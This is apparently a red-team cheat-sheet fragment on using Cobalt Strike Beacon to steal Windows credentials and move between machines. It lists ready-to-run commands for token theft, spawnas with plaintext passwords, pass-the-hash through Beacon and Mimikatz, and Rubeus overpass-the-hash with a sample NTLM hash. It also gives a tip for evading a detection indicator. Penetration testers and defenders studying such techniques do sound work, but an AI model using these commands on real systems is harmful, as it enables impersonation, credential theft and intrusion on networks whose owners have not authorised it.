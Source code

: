 #### Token Impersonation

```
# List Processes
ps

# Steal token  
steal_token <PID>
```

### SpawnAs

The `spawnas` command will spawn a new process using the plaintext credentials of another user and inject a Beacon payload into it. This creates a new logon session with the interactive logon type which makes it good for local actions, but also creates a whole user profile on disk if not already present.

```
# Run from directory current user has access to
spawnas <Domain>\<USER> <PASSWORD> <LISTENER>
```

### PassTheHash

```
pth <Domain>\<USER> <hash>
```

It passes the token over a named pipe which Beacon then impersonates automatically.

To avoid the `\\.\pipe\` indicator, we can execute Mimikatz manually and specify our own process.

```
 mimikatz sekurlsa::pth /user:USER /domain:DOMAIN /ntlm:HASH
 
 
 ## look for PID in the output
 # steal token
 steal_token <PID>
 
```

### Over Pass The Hash

[Rubeus](https://github.com/GhostPack/Rubeus) allows us to perform opth without needing elevated privileges. The process to follow is:

```
execute-assembly C:\Tools\Rubeus\Rubeus.exe asktgt /user:jking /domain:child.test.local /rc4:4ffd3eabdce2e158d923ddec72de979e /nowrap
```

Open Powershell and copy the TGT

```
PS C:\> [System.IO.File]::WriteAllBytes("C:\Users\Administrator\Desktop\jkingTGT.kirbi", [System.Convert]::FromBase64String("[...ticket...]"))
```

